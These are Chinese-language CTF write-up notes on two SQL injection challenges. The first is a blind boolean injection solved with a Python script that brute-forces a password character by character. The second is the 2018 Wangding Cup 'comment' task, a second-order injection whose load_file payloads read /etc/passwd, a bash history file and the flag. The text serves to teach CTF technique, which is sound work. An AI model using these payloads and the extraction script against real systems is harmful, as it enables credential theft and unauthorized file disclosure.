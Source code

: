 3.当第一个字母的ascii等于53时，后半边为false，也就是0，前半边'admin' | 0等同于0 | 0，因为字符串和数字比较时，会把字符串转为浮点数，做隐式类型转换，所以位或得出0，而usernmae=0时返回所有值，因为弱类型比较

4.python脚本

```
import requests
url = "http://123.206.41.254:8080/index.php"
r = requests.Session()
result=''
for i in range(1,33):
 for j in range(37,127):
  payload = "admin'|(ascii(mid((password)from({0})))>{1})#".format(str(i),str(j))
  data={"username":payload,"password":"psdvs"}
  print(payload)
  html=r.post(url,data=data)
  if "password error" in html.content:
   result+=chr(j)
   print(result)
   break
print(result)
```

5.用或时，让后半部分不等于,构造payload也可以得出
```
username=admin’|(ascii(mid((password)from(1)))<>53)#&password=sd 
```

http://www.ee50.com/zx/webaq/1061.html

## 2018_wdb_comment（网鼎杯2018）

1.git源码泄露，查看源码，二次注入，可以发现category第二次提取出来的时候没有进行过滤就直接放到sql语句了

![image](http://note.youdao.com/yws/res/1253/9FC89B100F0F4AEE88FF221E8BB74314)

sql语句是换行执行的，#进行注释只能注释当前行，所以我们这里用/**/进行拼接注释。

构造payload

```
$sql = "insert into comment
            set category = '123',content=user(),/*',
                content = '*/#',
                bo_id = '$bo_id'";
```
第二行content被注释掉，但是得二次注入在content里输入*/#才能显示

依次注入
```
//查看www用户目录
payload:123',content=(select( load_file('/etc/passwd'))),/* 
//读history文件
123',content=(select(load_file('//home/www/.bash_history'))),/*
//在/tmp/html下有个.DS_Store文件，长度不够用hex读
123',content=(select hex(load_file('/tmp/html/.DS_Store'))),/*
//十六进制转文字发现flag_8946e1ff1ee3e40f.php
123',content=(select hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php'))),/*
```
